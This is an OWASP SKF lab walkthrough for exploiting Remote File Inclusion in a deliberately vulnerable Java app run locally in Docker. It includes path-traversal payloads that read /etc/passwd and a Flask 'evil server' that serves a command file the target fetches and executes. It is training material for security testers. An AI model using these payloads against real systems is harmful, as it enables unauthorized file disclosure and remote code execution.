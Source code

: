 # Remote File Inclusion

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/RFI/1.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/RFI/3.png)

## Exploitation

To exploit this Remote File Inclusion vulnerability, let's use Python Flask to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.txt")
def start():
    return render_template("evil.txt")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Install dependencies:

```
$ pip3 install flask
```

Then we create a file ./templates/evil.txt and put the content below:

```text
whoami
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ pip install flask
$ python3 evil_server.py
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/RFI/4.png)

Success! As we observed, we can include our own files through RFI.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" %}
